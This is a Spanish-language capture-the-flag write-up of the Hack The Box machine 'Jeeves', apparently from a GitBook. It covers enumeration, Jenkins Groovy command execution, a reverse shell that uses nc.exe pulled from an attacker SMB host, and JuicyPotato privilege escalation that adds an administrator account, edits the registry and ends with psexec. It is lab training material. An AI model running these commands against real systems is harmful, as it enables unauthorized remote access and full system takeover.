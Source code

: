 # Jeeves

## Enumeración

```bash
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open http Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

El escaneo muestra 2 paginas webs .

### Puerto 80

La pagina web del `puerto 80` muestra un buscador

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FOIQI4fVUSJHwjB2K8GkV%2Fimage.png?alt=media&#x26;token=f7de2c24-f015-4341-8ac3-a9f96c5dac63" alt=""><figcaption></figcaption></figure>

Al buscar cualquier cosa la pagina muestra un error

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDTQnczzYotqMmenExKGJ%2Fimage.png?alt=media&#x26;token=ad14bc66-d14b-4ac0-84c5-615891bb38c5" alt=""><figcaption></figcaption></figure>

### Puerto 50000

La pagina web del `puerto 50000` muestra una pagina en html donde parece no haber nada interesante

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FxSFmCRxhxl6mX4SitqMH%2Fimage.png?alt=media&#x26;token=f4125cf5-3c8a-4ce4-b3aa-2902cef79af0" alt=""><figcaption></figcaption></figure>

Al hacer un escaneo de dominios con dirsearch podemos encontrar un directorio oculto `/askjeeves`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FH9VdXPNrmVXAj7TNH3Gb%2Fimage.png?alt=media&#x26;token=d3085497-137c-458d-96d6-e4f53a91f5a7" alt=""><figcaption></figcaption></figure>

En esa ruta tenemos Jenkins, que es un servidor de automatización de código abierto.&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FZ4EfLwMkRMtQTU2pOLUg%2Fimage.png?alt=media&#x26;token=65c37ae2-6bc1-48a0-ac33-23e59103ebc0" alt=""><figcaption></figcaption></figure>

## Explotación

### Jenkins

Cuando nos topamos con un Jenkins hay que estar atento ya que si aparece la opción "Manage Jenkins". Esta opción trae un modulo donde podemos ejecutar comandos en el lenguaje Groovy.&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FNzMIbThtzvZKsu7WEpD4%2Fimage.png?alt=media&#x26;token=7a8ba68b-f5ce-4a50-8dfd-3ee9ec7d04de" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FCnnGxHpybg1c4GV70Rsz%2Fimage.png?alt=media&#x26;token=cfb3c7c3-2e79-4d28-a78f-956eb2b783c0" alt=""><figcaption></figcaption></figure>

Si buscamos en Internet podemos buscar como ejecutar comandos de shell con Groovy.

```go
println "ls".execute().text
```

Ya que podemos ejecutar comandos podemos hacer una reverse shell. En mi caso voy a crear un servidor SMB en mi maquina de atacante donde tengo un archivo nc.exe. También nos ponemos en escucha para recibir la shell.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

```bash
rlwrap nc -lvnp 4444
```

Y en la consola de Jenkins me mando una shell usando ese archivo

```go
println "\\\\10.10.14.36\\smbFolder\\nc.exe -e cmd 10.10.14.36 4444".execute().text
```

Y ya tendriamos acceso al `user.txt`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fux14dsi8zN1ilrNk2SAo%2Fimage.png?alt=media&#x26;token=cec5a8b4-311b-4c1a-b722-82e51ae3781a" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FBi6v0cfUF3Oyz7QDyfQC%2Fimage.png?alt=media&#x26;token=dc86fd41-c30e-4cd4-bc0b-3ab20c2d3ac9" alt=""><figcaption></figcaption></figure>

## Escalada

Si vemos los privilegios de nuestro usuario con

```bash
whoami /priv
```

Podemos observar que tenemos el privilegio `SeImpersonatePrivilege` activado. Este privilegio se puede explotar con la herramienta `JuicyPotato` de la siguiente manera:

### JuicyPotato

Ya que tenemos un server smb propio vamos a meter el binario de JuicyPotato en el y vamos a pasarlo a la maquina victima.

```powershell
copy \\10.10.14.36\smbFolder\JuicyPotato.exe
```

Ahora intentamos crearnos un usuario usando esta herramienta.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user ub1cu0 Abc123. /add" -l 1337
</strong></code></pre>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FkFCAX9VguHPdY7TlOhUi%2Fimage.png?alt=media&#x26;token=908163ad-ceff-4072-9b1a-b9fbeeb59176" alt=""><figcaption></figcaption></figure>

Ahora que nos ha funcionado vamos a intentar moverlo al grupo Administradores.

```
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators ub1cu0 /add" -l 1337
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDJrcqXPL3IOSiShuoFQA%2Fimage.png?alt=media&#x26;token=520bfd6f-18e7-41bb-8b21-f735644f1d31" alt=""><figcaption></figcaption></figure>

Si intentamos checkear el logeo con `netexec` para ver si sale la flag "(Pwned!)" no va a salir, esto se debe a que para que salga, aparte de tener al usuario en el grupo administradores hay que editar un registro que hay en Windows que por defecto no permite la conexión remota con el usuario administrador con SMB.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F83bnX2sZ2pKykkwZRUeb%2Fimage.png?alt=media&#x26;token=62a7d6d9-3724-489f-9d0c-483be05b7f6b" alt=""><figcaption></figcaption></figure>

Vamos a editar el registro para permitirlo con:

{% code overflow="wrap" %}

```powershell
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

{% endcode %}

Y ahora veremos la flag (Pwned!)

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F2iNbIq2U7V9zphIq2Utr%2Fimage.png?alt=media&#x26;token=28fb830e-7f33-4f57-bf7b-ce1e53bf459f" alt=""><figcaption></figcaption></figure>

### PsExec

Ahora podemos usar la herramienta `PsExec` y usar el servicio smb para conseguir una shell del usuario "Administrator" con el siguiente comando:

```bash
impacket-psexec WORKGROUP/ub1cu0@jeeves.htb cmd.exe
```

Este comando necesita que el usuario tenga la etiqueta (Pwned!) con el netexec y que posea permiso para escribir en alguna carpeta SMB. En este caso con el usuario que hemos creado y que hemos hecho admin tenemos acceso de escritura en el recurso `ADMIN$` pero si no hubiera ningún recurso que cumpliera estos objetivos podríamos crear uno y funcionaría igual.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FWRCj03ie2PmTlMuJ4Jbp%2Fimage.png?alt=media&#x26;token=06962b0f-6793-4153-8910-c7fd5746e51d" alt=""><figcaption></figcaption></figure>

### Alternate Data Streams

Ahora ya tendríamos acceso a la flag `root.txt` pero en este caso no es así ya que, si vamos a la carpeta donde debería estar encontraremos este archivo que nos incita a buscar mas profundo.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fqo5sbamx16kvQg0YwUf2%2Fimage.png?alt=media&#x26;token=c34cef95-8776-49ca-bcd1-ee96f11a610f" alt=""><figcaption></figcaption></figure>

En este caso hay que saber de la existencia de las Data Alternate Stream, que en resumen en una forma de guardar texto oculto en ficheros de texto. Esto se puede ver si ponemos la flag `/r` a `dir` .

&#x20;&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FERuENUow6JowIBENrBNY%2Fimage.png?alt=media&#x26;token=d8551993-21d9-4dbb-9e88-6514bc2a0705" alt=""><figcaption></figcaption></figure>

Ahora que vemos el archivo oculto podemos ver su contenido volcandolo al comando more de la siguiente manera:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FPtOMRzegBgvhrOUvc8fo%2Fimage.png?alt=media&#x26;token=47dae2d3-da56-4417-99c1-654a00d1543c" alt=""><figcaption></figcaption></figure>

Y así habremos completado la maquina Jeeves. Gracias por leer!&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F6Ed0pvcJfCGvDm0rgHSp%2Fimage.png?alt=media&#x26;token=c898ed26-2658-4944-8598-739f06dac8ab" alt=""><figcaption></figcaption></figure>
